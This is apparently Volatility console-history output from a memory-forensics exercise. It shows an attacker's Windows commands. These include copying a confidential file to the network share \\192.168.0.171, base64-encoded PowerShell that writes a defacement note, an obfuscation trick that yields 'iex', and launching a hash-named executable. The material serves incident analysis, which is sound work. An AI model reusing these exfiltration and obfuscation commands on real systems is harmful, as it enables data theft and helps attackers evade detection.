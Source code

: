 ```bash title="python2 ./volatility-master/vol.py -f recollection.bin --profile=Win7SP1x64 consoles"
CommandCount: 6 LastAdded: 5 LastDisplayed: 5
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0xdc
Cmd #0 at 0xc71c0: type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt
Cmd #1 at 0xbf230: powershell -e "ZWNobyAiaGFja2VkIGJ5IG1hZmlhIiA+ICJDOlxVc2Vyc1xQdWJsaWNcT2ZmaWNlXHJlYWRtZS50eHQi"
Cmd #2 at 0x9d1a0: powershell.exe -e "ZWNobyAiaGFja2VkIGJ5IG1hZmlhIiA+ICJDOlxVc2Vyc1xQdWJsaWNcT2ZmaWNlXHJlYWRtZS50eHQi"
Cmd #3 at 0xc72a0: cd .\Downloads
Cmd #4 at 0xbdf10: ls
Cmd #5 at 0xc2ee0: .\b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1.exe
----
CommandHistory: 0xbebe0 Application: cmd.exe Flags: Allocated, Reset
CommandCount: 2 LastAdded: 1 LastDisplayed: 1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x60
Cmd #0 at 0xc2f80: powershell -command "(gv'*MDR*').naMe[3,11,2]-joIN''"
Cmd #1 at 0xbd660: powershell
----
Screen 0xa10c0 X:80 Y:300
Dump:
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\user>powershell -command "(gv'*MDR*').naMe[3,11,2]-joIN''"
iex

C:\Users\user>powershell
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.

PS C:\Users\user> type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt
The network path was not found.
At line:1 char:47
+ type C:\Users\Public\Secret\Confidential.txt > <<<<  \\192.168.0.171\pulice\p ass.txt
    + CategoryInfo          : OpenError: (:) [], IOException
    + FullyQualifiedErrorId : FileOpenFailure

PS C:\Users\user> powershell -e "ZWNobyAiaGFja2VkIGJ5IG1hZmlhIiA+ICJDOlxVc2Vyc1xQdWJsaWNcT2ZmaWNlXHJlYWRtZS50eHQi"
The term '??????????????????????????????' is not recognized as the name of a cm
dlet, function, script file, or operable program. Check the spelling of the nam
e, or if a path was included, verify that the path is correct and try again.
At line:1 char:31
+ ?????????????????????????????? <<<<
    + CategoryInfo          : ObjectNotFound: (??????????????????????????????:
   String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException

PS C:\Users\user> powershell.exe -e "ZWNobyAiaGFja2VkIGJ5IG1hZmlhIiA+ICJDOlxVc2Vyc1xQdWJsaWNcT2ZmaWNlXHJlYWRtZS50eHQi"
The term '??????????????????????????????' is not recognized as the name of a cm
dlet, function, script file, or operable program. Check the spelling of the nam
e, or if a path was included, verify that the path is correct and try again.
At line:1 char:31
+ ?????????????????????????????? <<<<
    + CategoryInfo          : ObjectNotFound: (??????????????????????????????:
   String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException

PS C:\Users\user> cd .\Downloads
PS C:\Users\user\Downloads> ls

```
